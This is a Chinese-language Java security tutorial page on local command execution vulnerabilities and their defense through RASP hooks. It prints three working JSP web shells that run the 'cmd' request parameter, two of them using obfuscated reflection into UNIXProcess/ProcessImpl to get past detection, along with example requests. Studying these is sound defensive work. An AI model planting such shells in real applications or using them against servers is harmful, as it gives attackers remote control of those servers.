 # 本地命令执行漏洞

攻击者一旦可以在服务器中执行任意本地系统命令就意味着服务器已被非法控制，在Java中可用于执行系统命令的方式有API有：`java.lang.Runtime`、`java.lang.ProcessBuilder`、`java.lang.UNIXProcess`/`ProcessImpl`。



## 1. Java本地命令执行测试

**示例 - 存在本地命令执行代码(`java.lang.Runtime`)：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<pre>
<%
    Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
    InputStream in = process.getInputStream();
    int a = 0;
    byte[] b = new byte[1024];

    while ((a = in.read(b)) != -1) {
        out.println(new String(b, 0, a));
    }

    in.close();
%>
</pre>
```

攻击者通过向 `cmd` 参数传入恶意的代码即可在服务器上执行任意系统命令，请求：[http://localhost:8000/modules/cmd/cmd.jsp?cmd=ls](http://localhost:8000/modules/cmd/cmd.jsp?cmd=ls)，如下图：

<img src="https://oss.javasec.org/images/image-20200920232032191.png" alt="image-20200920232032191" style="zoom:50%;" />

由于传入的`cmd`参数仅仅是一个两位的英文字母，传统的WAF基本都不具备对该类型的攻击检测，所以如果没有RASP的本地命令执行防御会导致攻击者可以在服务器中执行恶意的命令从而控制服务器。



## 2. 深层调用命令执行测试

**示例 - 存在本地命令执行代码(`java.lang.UNIXProcess`)：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.*" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>
<pre>
<%
    String[] cmd = request.getParameterValues("cmd");

    if (cmd != null) {
        Class clazz = Class.forName(new String(new byte[]{
                106, 97, 118, 97, 46, 108, 97, 110, 103, 46,
                85, 78, 73, 88, 80, 114, 111, 99, 101, 115, 115
        }));

        Constructor constructor = clazz.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        byte[][] args = new byte[cmd.length - 1][];
        int      size = args.length; // For added NUL bytes

        for (int i = 0; i < args.length; i++) {
            args[i] = cmd[i + 1].getBytes();
            size += args[i].length;
        }

        byte[] argBlock = new byte[size];
        int    i        = 0;

        for (byte[] arg : args) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
        }

        byte[] bytes  = cmd[0].getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0, result, 0, bytes.length);
        result[result.length - 1] = (byte) 0;

        Object object = constructor.newInstance(
                result, argBlock, args.length,
                null, 1, null, new int[]{-1, -1, -1}, false
        );

        Method inMethod = object.getClass().getDeclaredMethod("getInputStream");
        inMethod.setAccessible(true);

        InputStream in = (InputStream) inMethod.invoke(object);
        int a = 0;
        byte[] b = new byte[1024];

        while ((a = in.read(b)) != -1) {
            out.println(new String(b, 0, a));
        }

        in.close();
    }
%>
</pre>
```

**示例 - 存在本地命令执行代码(`java.lang.ProcessImpl`)：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>

<%
    String str = request.getParameter("cmd");

    if (str != null) {
        Class clazz = Class.forName(new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 80, 114, 111, 99, 101, 115, 115, 73, 109, 112, 108}));

        Constructor<?> constructor = clazz.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        Object object   = constructor.newInstance(str.split("\\s+"), null, "./", new long[]{-1L, -1L, -1L}, false);
        Method inMethod = object.getClass().getDeclaredMethod("getInputStream");
        inMethod.setAccessible(true);
        InputStream in = (InputStream) inMethod.invoke(object);
        Scanner     s  = new Scanner(in).useDelimiter("\\A");

        out.println("<pre>");
        out.println(s.hasNext() ? s.next() : "");
        out.println("</pre>");
        out.flush();
        out.close();
    }
%>
```

这部分对于 linux 和 windows 系统的攻击代码有所差异，但原理上一致。

Linux系统，请求：[http://localhost:8000/modules/cmd/linux-cmd.jsp?cmd=ls](http://localhost:8000/modules/cmd/linux-cmd.jsp?cmd=ls)，如下图：

<img src="https://oss.javasec.org/images/image-20200920232507347.png" alt="image-20200920232507347" style="zoom:50%;" />

Windows系统，请求：[http://localhost:8000/windows-cmd.jsp?cmd=cmd%20/c%20dir%20](http://localhost:8000/windows-cmd.jsp?cmd=cmd%20/c%20dir%20)，如下图：

<img src="https://oss.javasec.org/images/image-20200920233748774.png" alt="image-20200920233748774" style="zoom:50%;" />



## 3. 本地命令执行防御

本地命令执行是一种非常高风险的漏洞，在任何时候都应当非常谨慎的使用，在业务中如果使用到了本地系统命令那么应当禁止接收用户传入参数。在很多时候攻击者会利用某些漏洞（如：Struts2、反序列化等）来攻击我们的业务系统，最终利用Java本地命令执行达到控制Web服务器的目的。这种情况下用户执行的系统命令对我们来说就不再受控制了，我们除了可以配置`SecurityManager`规则限制命令执行以外，使用RASP来防御本地命令执行就显得更加的便捷可靠。



### 3.1 RASP防御Java本地命令执行

在Java底层执行系统命令的API是`java.lang.UNIXProcess/ProcessImpl#forkAndExec`方法，`forkAndExec`是一个native方法，如果想要Hook该方法需要使用Agent机制中的`Can-Set-Native-Method-Prefix`，为`forkAndExec`设置一个别名，如：`__RASP__forkAndExec`，然后重写`__RASP__forkAndExec`方法逻辑，即可实现对原`forkAndExec`方法Hook。

**示例 - Java本地命令执行API：**

<img src="https://oss.javasec.org/images/image-20201115200801836.png" alt="image-20201115200801836" style="zoom:50%;" />

使用RASP的Hook机制捕获当前正在执行的系统命令，不过不同的API获取执行的命令参数的方式不太一样。

**示例 - Hook java.lang.ProcessImpl执行系统命令：**

```java
/**
 * Hook Windows系统ProcessImpl类构造方法
 */
@RASPMethodHook(
      className = "java.lang.ProcessImpl", methodName = CONSTRUCTOR_INIT,
      methodArgsDesc = ".*", methodDescRegexp = true
)
public static class ProcessImplHook extends RASPMethodAdvice {

   @Override
   public RASPHookResult<?> onMethodEnter() {
      try {
         String[] commands = null;

         // JDK9+的API参数不一样！
         if (getArg(0) instanceof String[]) {
            commands = getArg(0);
         } else if (getArg(0) instanceof byte[]) {
            commands = new String[]{new String((byte[]) getArg(0))};
         }

         // 检测执行的命令合法性
         return LocalCommandHookHandler.processCommand(commands, getThisObject(), this);
      } catch (Exception e) {
         RASPLogger.log(AGENT_NAME + "处理ProcessImpl异常:" + e, e);
      }

      return new RASPHookResult<?>(RETURN);
   }

}
```



#### 3.1.1 请求参数关联分析

获取到本地命令执行的参数后需要与Http请求的参数进行关联分析，检测当前执行的系统命令是否与请求参数相关，如果确认当前执行的系统命令来源于Http请求参数，那么RASP会立即阻止命令执行并阻断Http请求。

#### 3.1.2 限制执行本地系统命令

因为本地命令执行的危害性极大，所以在默认情况下可以直接禁止本地命令执行，如果业务的确有必要开启那么可以对相应的业务URL做白名单。限制的方式可分为两种类型：

1. 完全限制本地命令执行，禁止在Java中执行任何命令；
2. 允许程序内部的本地命令执行，只在有Http请求的时候才禁止执行命令；

这两种类型的禁止方案为可选方案，可在RASP的云端实时配置。

**示例 - 禁止在HTTP请求时执行本地系统命令：**

<img src="https://oss.javasec.org/images/image-20201115203039369.png" alt="image-20201115203039369" style="zoom:50%;" />

